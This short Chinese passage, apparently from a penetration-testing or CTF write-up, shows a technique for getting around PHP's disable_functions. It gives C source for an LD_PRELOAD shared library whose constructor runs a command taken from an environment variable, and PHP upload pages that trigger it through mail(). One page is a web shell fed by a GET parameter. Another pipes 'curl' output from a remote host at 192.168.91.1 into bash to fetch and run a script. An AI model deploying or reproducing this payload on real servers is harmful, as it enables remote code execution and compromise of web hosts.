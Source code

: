 
借用大佬写的动态连接代码
```c
#include <stdlib.h>
__attribute__((constructor)) void j0k3r(){
    unsetenv("LD_PRELOAD");
    if (getenv("cmd") != NULL){
        system(getenv("cmd"));
    }else{
        system("echo 'no cmd' > /tmp/cmd.output");
    }
}
```

上传php页面尝试执行命令


```php
<?php
$cmd=@$_GET['cmd'];
putenv("cmd=".$cmd);
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>


<?php
putenv("cmd=curl -A o -o- -L http://192.168.91.1:55413/a | bash -s");
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>

```

执行时间要过个几十秒吧。

![](img/3.png)
